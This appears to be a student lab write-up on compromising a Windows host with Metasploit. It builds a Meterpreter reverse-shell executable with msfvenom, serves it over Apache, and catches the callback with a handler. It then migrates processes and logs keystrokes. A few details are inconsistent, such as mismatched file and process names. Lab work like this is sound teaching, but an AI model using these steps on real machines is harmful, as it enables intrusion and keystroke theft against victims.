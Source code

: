 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .
```
Register Number: 212222040095
Name: Mahisha S
```

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110609](https://github.com/user-attachments/assets/9244b6df-682a-4925-8437-990b37e7e202)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.14.241 -f exe > mahisha.exe
## OUTPUT
![Screenshot 2025-04-07 111401](https://github.com/user-attachments/assets/5469dce6-90fb-4c7c-a969-40777915f820)





copy the fun.exe into the apache /var/www/html folder


![Screenshot 2025-04-07 111757](https://github.com/user-attachments/assets/9b463b17-fee2-4c8c-9bea-0deedb00779a)





Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 111807](https://github.com/user-attachments/assets/d1a1d860-58b2-4983-953f-80178b2fe09c)



Check the status of apache2
![Screenshot 2025-04-07 115230](https://github.com/user-attachments/assets/542fc8c2-6166-4994-87f7-9cba22527af6)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-11 135734](https://github.com/user-attachments/assets/3e73156c-1895-400b-8864-289c2eca698b)





On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.14.241/mahisha.exe
The file "mahisha.exe" downloads. 
![image](https://github.com/user-attachments/assets/b8a94154-39f4-492d-9328-a12caeb16461)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115329](https://github.com/user-attachments/assets/2fb57481-4077-43d8-80a8-5162251ad7f2)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

